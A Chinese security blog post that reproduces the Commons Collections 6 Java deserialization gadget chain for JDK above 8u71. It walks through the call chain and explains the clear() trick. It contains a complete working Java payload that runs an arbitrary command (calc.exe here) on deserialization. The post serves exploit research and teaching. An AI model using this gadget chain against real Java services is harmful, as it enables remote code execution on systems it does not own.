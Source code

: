 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU0MTc2NTExNg==&mid=2247492614&idx=1&sn=2d05e9cc7f905932ff7bd4632366746b

#  关于打高版本java,cc6复现  
 实战安全研究   2025-07-14 02:01  
  
关于打高版本java,cc6复现  
  
  
从上一篇的cc1中我们发现他不能作用在jdk_8u71以上的版本，因此;为了解决这个问题，引入了cc6  
  
  
之所以不能用cc1打高版本，是由于在Java 8u71以后， sun.reflect.annotation.AnnotationInvocationHandler#readObject 的逻辑变化了;  
  
  
所以这条链子走不了了，因此为了解决这一问题，**就需要看看上下文其他地方的调用LazyMap的get的地方**  
  
老规矩先找可以触发transform方法的函数;  
  
这里依然用的是LazyMap的get方法触发  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKLjtFLA0GcopwyF59c7skibfBpbNgNttHic74PJys7O4gj8FSQulK7mmA/640?wx_fmt=png&from=appmsg "")  
  
  
在高版本中CC1中用到的AnnotationInvocationHandler类的Invoke无法再触发，我们找到了org.apache.commons.collections.keyvalue.TiedMapEntry类;  
  
可以看到这里使用TiedMapEntry的getvalue调用了get;  
  
只需要传进去的map等于我们的Lazymap类的实例化对象即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKnGcdBaHvXU7dA4GGMkxCLIKKTNd3cibAPGbPGcuRRHNKuaDFy0ibtMnw/640?wx_fmt=png&from=appmsg "")  
  
  
接下来继续找哪里调用了getvalue();  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblK6ribNareRGE4z2KvndITsNhfrxHDVqhAj3XicFoaHD8VxwTJgZMKKR5w/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到有3个地方调用了getvalue，equals(),hashCode(),toString()  
  
在URLDNS链子中我们知道在hashmap反序列化过程中,会触发`readObject()`方法进行重建键值对。这一过程会**自动触发键对象的`hashCode()`计算**  
  
先说toString()；这个很难找到在 readobject 中的隐式调用;  
  
而equals()在hash冲突(当两个不同键的**hashCode()**结果相同时，`HashMap`会调用`equals()`验证键是否真正相等)或  
  
集合操作时(如`contains()`、`remove()`等方法的调用（但反序列化过程很少涉及这些操作）)才会隐式触发  
  
也就是说equals()触发场景(可能需要进行需要精确构造哈希碰撞的操作)利用难度较大;  
  
而hashCode()我们知道在hashmap中hash函数进行调用  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblK2WUib1rgzibrc6d5Q1Q7WEeLfZY7jZp71jpOFTsVFQZ3DMaUDY9ib95rg/640?wx_fmt=png&from=appmsg "")  
  
在readobject中调用了hash  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblK9lyGmJP7KPiafHP6GJTcibkhowjwJ6mw7FbGqYhalqSCIDZsA6NXSatg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKQ8oXLLXqMnvBpLtGUJL7sPmXOLttWyU11ibOUsh3M37kX4nkUf4nHZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
可以看到其中hash对传进去的key进行处理；我们只需要让TiedMapEntry类的实例对象作为key传进去即可  
  
  
因此gadget链就是  
  

```
1


```


```


graph TD
    A[HashMap.readObject] --> B[HashMap.hash]
       B --> C[TiedMapEntry.hashCode]
           C --> D[TiedMapEntry.getValue]
               D --> E[LazyMap.get]
                   E --> F[ChainedTransformer.transform]
                       F --> G[InvokerTransformer执行命令]


```

  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKxiark3IaAGwfYia1YMB1FXWf32QibJ8JkC0iaNUyVvib8cV1BgffvGC9mSA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
以下是payload  
  

```
1


```


```
public class CommonCollections6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)
       };
        Transformer[] Transformers = new Transformer[]{
              //  new ConstantTransformer(1), // 反射调用Runtime.getRuntime()
                new ConstantTransformer(Runtime.class), // 反射调用Runtime.class
                new InvokerTransformer(&#34;getMethod&#34;,
                        new Class[]{String.class, Class[].class},
                        new Object[]{&#34;getRuntime&#34;, new Class[0]}),
                new InvokerTransformer(
                        &#34;invoke&#34;,
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer(&#34;exec&#34;,
                        new Class[]{String.class},
                        new Object[]{&#34;calc.exe&#34;}), // 反射调用exec函数
                new ConstantTransformer(1)
        };
        Transformer transformerchains = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerchains);
        TiedMapEntry tme = new TiedMapEntry(outerMap, &#34;keykey&#34;);
        Map expMap = new HashMap();
        expMap.put(tme, &#34;valuevalue&#34;);
        outerMap.clear();//清空map
        Field field=ChainedTransformer.class.getDeclaredField(&#34;iTransformers&#34;);
        field.setAccessible(true);
        field.set(transformerchains,Transformers);
        //序列化
        byte[] exp=SerializationUtils.serialize((Serializable) expMap);
        //反序列化
        SerializationUtils.deserialize(exp);
    }
```

  
  
  
区分下这个clear();和上一篇的clear()的区别在于;这里的clear()是为了确保反序列化的正常执行，上一篇cc1的clear()是为了触发代理类的invoke,才进行显示调用测试；实际上调用不在"黑名单中的任意函数都可以"，比如说我显示调用entrySet()  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKpn0cBZbd0vNTv1EjmAxE2ib419rJoRLud63ibfdC4cNwWTxLokegxMLg/640?wx_fmt=png&from=appmsg "")  
  
  
下面我解释下在cc6中为什么要清空map；  
  
进行调试后发现，在LazyMap的get中;这里没有进入if判断而是直接跳过然后进入else进行返回;原因显而易见;是key已经存在值  
  
keykey了；  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKyZVN7UPGYudxHaMpzmTsmHYWibUejgia2Ks2lUYOV1uQ4DFa8VTjHwIQ/640?wx_fmt=png&from=appmsg "")  
  
  
从上下文可以知道这个keykey是在TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");赋值；  
  
但其构造函数中并没有对outmap进行操作  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKpek2icvgVaZWY7vLCfzmBcXfDvH1QmcEsrrmahObo5dPYXKoia7NUkzg/640?wx_fmt=png&from=appmsg "")  
  
  
了解过DNSURL这条链子，就会知道这其实是由于这个语句  
  
expMap.put(tme, "valuevalue");  
  
在put函数中也会调用hashcode  
  
也就是说  
  
  
expMap.put(tme, "valuevalue") 会隐式触发 TiedMapEntry.hashCode()` → `LazyMap.get("keykey")。由于之前传入的是fakeTransformers，此时链子不会触发;而在此次之后， outerMap（即LazyMap）中会存入键 "keykey";导致后续的"真实链子"不会触发;  
  
  
测试写入真实链子，可以看到在put(实际场景中是序列化时触发)时就触发了  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKq0hKmicSTIKIQOb5GPS4m4xtwIUuHicUicnib3cbld55IZspFHiaGzTr8hw/640?wx_fmt=png&from=appmsg "")  
  
因此;这时候就需要clear()清空outmap中的keykey;  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKGT43WF744uM32TPPNMnTQibB5KqGagZLJo2DY514mh5oiaeOibl5H7u8A/640?wx_fmt=png&from=appmsg "")  
  
最后  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bskbdA2iclHMetIA3wVdicnwyAUqj1qblKYaVmKUj07RiarV62NC0Om3SbeNtA9FkiaIia7JzA8icPSfib3ZgXB3ibEDDw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
这条链子没有cc1，lazymap版本动态代理那部分的"难以理解"，比较经典；用的也比较舒服的一条链子;  
  
  
再次总结下流程  
  
  
通过在LazyMap的get可以执行ChainedTransformer.transform，我们找到了TiedMapEntry.getValue去触发get，在TiedMapEntry代码中我们看到hashcode调用了getvalue，所以，我们很容易想到打URLDNS链用的hashmap中的hash触发;最后通过hashmap的readobjecct中的hash触发hashcode;  
  
  
正向流程就是在反序列化过程中 Hashmap的readobject触发hash函数，由于hash参数是TiedMapEntry对象，因此调用了TiedMapEntry的hashcode函数，在hashcode中又调用了getvalue函数，在getvalue中调用了传进来的map参数的get函数，由于我们传进去的是LazyMap对象，导致调用了LazyMap对象的get函数，触发了get的transform函数，而这个transform可控，导致我们注入我们的恶意的反射调用链去执行任意命令;  
  
  
再次贴下gadget  
  

```


graph TD
    A[HashMap.readObject] --> B[HashMap.hash]
       B --> C[TiedMapEntry.hashCode]
           C --> D[TiedMapEntry.getValue]
               D --> E[LazyMap.get]
                   E --> F[ChainedTransformer.transform]
                       F --> G[InvokerTransformer执行命令]


```

  
  
  
  
；  
  
参考文章:  
  
自己的博客:https://www.cnblogs.com/rcpw0tor-/p/18901536  
  
p牛的博客知识星球->代码审计->java系列文章  
  
https://mp.weixin.qq.com/s/AjCngDFNE2wT9JvajMMxTA  
  
  
